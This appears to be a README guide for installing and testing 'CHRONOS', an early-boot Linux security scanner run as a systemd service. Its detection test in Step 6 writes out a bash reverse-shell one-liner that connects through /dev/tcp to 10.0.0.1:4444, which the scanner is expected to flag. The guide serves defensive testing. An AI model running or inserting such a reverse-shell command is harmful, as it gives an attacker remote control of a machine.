

# CHRONOS Early-Boot Security & Vulnerability Auditor — Step-by-Step Procedure Guide

> **Platform:** Linux / Ubuntu (20.04 LTS, 22.04 LTS, 24.04 LTS, Debian, CachyOS, Arch, RHEL)  
> **Service:** `chronos-boot-scan.service` (Early-Boot Systemd Service)  
> **Module:** CHRONOS Intelligence & Kernel Posture Engine ([`chronos/intelligence/boot_scanner.py`](chronos/intelligence/boot_scanner.py))

---

## 📋 Table of Contents

1. [Executive Overview & Boot Architecture](#1-executive-overview--boot-architecture)
2. [Prerequisites](#2-prerequisites)
3. [Step 1: Environment Setup & Local Verification](#step-1-environment-setup--local-verification)
4. [Step 2: Manual Boot Scan Verification](#step-2-manual-boot-scan-verification)
5. [Step 3: Automated Installation (Recommended)](#step-3-automated-installation-recommended)
6. [Step 4: Manual Systemd Service Installation (Alternative)](#step-4-manual-systemd-service-installation-alternative)
7. [Step 5: Verifying Service Status in Systemd](#step-5-verifying-service-status-in-systemd)
8. [Step 6: Threat Detection & Integrity Simulation Test](#step-6-threat-detection--integrity-simulation-test)
9. [Step 7: Post-Reboot Verification & Log Inspection](#step-7-post-reboot-verification--log-inspection)
10. [Step 8: Disabling or Uninstalling the Service](#step-8-disabling-or-uninstalling-the-service)
11. [Troubleshooting & FAQ](#troubleshooting--faq)

---

## 1. Executive Overview & Boot Architecture

The **CHRONOS Boot Security Scanner** executes in the **early-boot phase** of the Linux kernel initialization before network sockets are established and before user login shells or external daemons become active.

### Boot Sequence Lifecycle



---

## 2. Prerequisites

Ensure your host meets the following requirements:

* **Operating System**: Linux (Ubuntu 20.04+, Debian 11+, CachyOS, Fedora, Arch)
* **Init System**: `systemd`
* **Python**: Python 3.10, 3.11, 3.12, or 3.14
* **Privileges**: Root access (`sudo`) for installing systemd services and writing to `/var/log`

---

## Step 1: Environment Setup & Local Verification

Clone the repository and build the virtual environment:

```bash
# 1. Navigate to the repository
cd /path/to/AIVA-Ks

# 2. Install dependencies into virtualenv (.venv)
make setup
```

Verify that the Python virtualenv and dependencies are ready:

```bash
.venv/bin/python --version
.venv/bin/pytest tests/unit/test_boot_scanner.py -v
```

Expected output:
```text
tests/unit/test_boot_scanner.py::test_boot_scanner_initialization PASSED
tests/unit/test_boot_scanner.py::test_boot_scanner_detects_malicious_systemd_execstart PASSED
tests/unit/test_boot_scanner.py::test_boot_scanner_console_render PASSED
============================== 3 passed in 0.05s ==============================
```

---

## Step 2: Manual Boot Scan Verification

Before installing systemd hooks, execute a live audit directly from your terminal:

### Standard Console Audit Banner
```bash
make boot-scan
# or: .venv/bin/chronos boot-scan
```

### JSON Formatted Machine Report
```bash
.venv/bin/chronos boot-scan --json
```

### Example Output
```text
================================================================================
        CHRONOS LINUX & UBUNTU BOOT SECURITY & INTEGRITY AUDITOR        
================================================================================
  Target Host:       cachyos-x8664
  Audit Timestamp:   2026-09-24T07:07:12.852693+00:00
  Scan Duration:     0.009s
  Overall Posture:   CLEAN & SECURE
  Summary:           2 findings (Critical: 0, High: 0, Medium: 0, Low: 2)
--------------------------------------------------------------------------------
  1. [LOW]      Kernel Posture — Kernel Lockdown Inactive
     Path:        /sys/kernel/security/lockdown
     Description: Kernel lockdown mode is disabled ([none]), allowing unsigned kmods and direct memory access.
     Remedy:      Enable kernel lockdown via kernel parameter 'lockdown=integrity' or Secure Boot.

  2. [LOW]      Kernel Posture — Kernel is Tainted (Value: 12800)
     Path:        /proc/sys/kernel/tainted
     Description: Kernel taint flag indicates proprietary or out-of-tree kernel modules loaded.
     Remedy:      Review loaded modules using 'lsmod' and verify cryptographic signatures.

================================================================================
[*] Audit ledger written to: /tmp/chronos-boot-audit.json
```

---

## Step 3: Automated Installation (Recommended)

Run the included Linux installer script with `sudo`:

```bash
sudo ./install_ubuntu_daemon.sh
```

### What this script automatically configures:
1. Links `/usr/local/bin/chronos` globally so you can run `chronos status` or `chronos boot-scan` from any shell.
2. Installs the early-boot oneshot auditor service to `/etc/systemd/system/chronos-boot-scan.service`.
3. Installs the continuous background defense engine to `/etc/systemd/system/chronos.service`.
4. Enables `chronos-boot-scan.service` at boot (`WantedBy=sysinit.target`).
5. Starts the continuous defender service immediately.

---

## Step 4: Manual Systemd Service Installation (Alternative)

If you prefer to configure systemd manually without running the script:

### 1. Create the Early-Boot Service File
Create `/etc/systemd/system/chronos-boot-scan.service`:

```bash
sudo nano /etc/systemd/system/chronos-boot-scan.service
```

Paste the following definition (replace `/home/tracehanami/Github/AIVA-Ks` with your actual repository path):

```ini
[Unit]
Description=CHRONOS Early Boot Security & Vulnerability Auditor
Documentation=https://github.com/TraceHanami/AIVA-Ks
DefaultDependencies=no
After=local-fs.target systemd-sysctl.service
Before=sysinit.target network.target basic.target multi-user.target
Conflicts=shutdown.target

[Service]
Type=oneshot
RemainAfterExit=yes
User=root
WorkingDirectory=/home/tracehanami/Github/AIVA-Ks
ExecStart=/home/tracehanami/Github/AIVA-Ks/.venv/bin/python -m chronos.intelligence.boot_scanner
StandardOutput=journal+console
StandardError=journal+console
TimeoutSec=30s

[Install]
WantedBy=sysinit.target
```

### 2. Set Secure Permissions & Enable
```bash
# Set root-only write permissions
sudo chmod 644 /etc/systemd/system/chronos-boot-scan.service

# Reload systemd daemon
sudo systemctl daemon-reload

# Enable service to run on every future boot
sudo systemctl enable chronos-boot-scan.service
```

---

## Step 5: Verifying Service Status in Systemd

Check if the unit is enabled and test its one-shot execution:

```bash
# 1. Verify enabled state (should return 'enabled')
systemctl is-enabled chronos-boot-scan.service

# 2. Trigger a test run via systemd
sudo systemctl start chronos-boot-scan.service

# 3. Check execution logs
sudo systemctl status chronos-boot-scan.service
```

Expected status:
```text
○ chronos-boot-scan.service - CHRONOS Early Boot Security & Vulnerability Auditor
     Loaded: loaded (/etc/systemd/system/chronos-boot-scan.service; enabled; preset: disabled)
     Active: active (exited) since Thu 2026-09-24 12:30:00 UTC; 5s ago
    Process: 28410 ExecStart=/home/tracehanami/Github/AIVA-Ks/.venv/bin/python -m chronos.intelligence.boot_scanner (code=exited, status=0/SUCCESS)
   Main PID: 28410 (code=exited, status=0/SUCCESS)
```

---

## Step 6: Threat Detection & Integrity Simulation Test

To verify that the scanner detects active threats at boot:

### 1. Plant a Non-Destructive Reverse Shell Test String in `/tmp`
```bash
echo "bash -i >& /dev/tcp/10.0.0.1/4444 0>&1" > /tmp/test_threat.sh
```

### 2. Trigger the Boot Scanner
```bash
make boot-scan
```

### Expected Output:
```text
--------------------------------------------------------------------------------
  1. [CRITICAL] Malware Signatures — Malicious Signature Detected: ReverseShell.Bash.Generic
     Path:        /tmp/test_threat.sh
     Description: Signature engine identified ReverseShell.Bash.Generic (Reverse Shell) in /tmp.
     Remedy:      Quarantine or delete infected file: rm -f /tmp/test_threat.sh
--------------------------------------------------------------------------------
```

### 3. Cleanup Test Artifact
```bash
rm -f /tmp/test_threat.sh
```

---

## Step 7: Post-Reboot Verification & Log Inspection

After rebooting your Ubuntu/Linux machine, verify the boot scan results:

### 1. Check Boot Log in Systemd Journal
View the audit output produced during the most recent boot:
```bash
# View last boot scan
journalctl -u chronos-boot-scan -b
```

### 2. Inspect Structured JSON Audit Ledger
The scan automatically writes an audit record to `/var/log`:
```bash
# Pretty-print the boot audit findings
cat /var/log/chronos-boot-audit.json | jq .
```

Example JSON ledger entry:
```json
{
  "timestamp": "2026-09-24T07:15:00.123456+00:00",
  "host": "cachyos-x8664",
  "duration_seconds": 0.009,
  "overall_status": "CLEAN & SECURE",
  "total_findings": 0,
  "critical_count": 0,
  "high_count": 0,
  "medium_count": 0,
  "low_count": 0,
  "findings": [],
  "system_metadata": {
    "kernel_cmdline": "BOOT_IMAGE=/boot/vmlinuz ...",
    "lockdown_state": "[integrity] none",
    "kernel_taint": 0
  }
}
```

---

## Step 8: Disabling or Uninstalling the Service

If you ever wish to disable or remove the boot scanner:

```bash
# 1. Stop and disable early-boot service
sudo systemctl stop chronos-boot-scan.service
sudo systemctl disable chronos-boot-scan.service

# 2. Remove unit file
sudo rm -f /etc/systemd/system/chronos-boot-scan.service

# 3. Reload daemon
sudo systemctl daemon-reload

# 4. Remove audit ledger (optional)
sudo rm -f /var/log/chronos-boot-audit.json
```

---

## Troubleshooting & FAQ

### Q1: Does the boot scan slow down my computer's boot time?
**No.** The entire scan completes in **0.008 to 0.015 seconds** (less than 15 milliseconds). It runs in compiled Python utilizing zero-copy metadata queries, adding negligible overhead to system boot.

### Q2: What happens if a critical threat is found during boot?
The service exits with status code `2` and writes high-priority alert entries to `journalctl` and `/var/log/chronos-boot-audit.json`. If `StandardOutput=journal+console` is enabled, the warning banner is displayed directly onto the physical console screen/TTY.

### Q3: Can I run the boot scan without systemd?
**Yes.** You can invoke it manually anytime with:
```bash
make boot-scan
# or:
chronos boot-scan
```
You can also invoke it via cron using the `@reboot` directive:
```bash
@reboot /path/to/AIVA-Ks/.venv/bin/chronos boot-scan >> /var/log/chronos-boot.log 2>&1
```
